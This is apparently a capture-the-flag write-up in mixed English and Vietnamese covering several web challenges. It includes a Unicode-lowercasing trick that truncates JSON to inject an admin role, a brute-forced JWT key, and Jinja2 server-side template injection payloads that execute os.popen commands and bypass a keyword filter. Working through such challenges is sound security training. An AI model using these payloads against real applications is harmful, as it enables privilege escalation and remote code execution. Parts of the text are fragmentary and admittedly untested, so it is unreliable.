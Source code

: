 check secret_answer.length > 45 
Remember to unicode: `"İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ"`

Length will > 45
ToLOwerCase() will length > 255 and role: "user", will be cut

```
payload = {
    "phone": "1234567890",
    "credit_card": "1234567890987654",
    "secret_question": "İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ", 
    "secret_answer": 'İİİİİİİİİİİİİİİİİİİİİİİİ","role":"admin"}',
    "current_password": account['password']
}
```

Flag : `in content`

### MyFirstApp

![image](https://hackmd.io/_uploads/SkDK5_uja.png)

Start this challenge i know this is ssti vulnerability but i sit to bypass regex

![image](https://hackmd.io/_uploads/HkCY9_dja.png)

I have thought about it in jwt but if I don't do it, it won't work
Suggestions from the guys in the club i solver this challenge :
Brute-force key, we have "torontobluejays"
Let change username to RCE:
Use payload jinja2(Python):

        ```{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}```

- Malicious stuff: ["'", '_', 'os', 'popen', 'global']

{{()|attr((request|string).17~(request|string).18~(request|string).19~(request|string).20~(request|string).21~(request|string).22~(request|string).23~(request|string).24~(request|string).25)}}
RCE success you you will have flag
ý tưởng là từ đó mình có thể nối các chuỗi
Flags:  `mình chưa test lại mà luồng đúng rồi nha :#`


### The Varsity

đề bài : The Varsity
vul : parseInt vul in javascript

View source have main you can get the flag

![image](https://hackmd.io/_uploads/Skvrq_usa.png)

You must show item 10 to view it
Main function:

![image](https://hackmd.io/_uploads/Hy-rcOOsT.png)
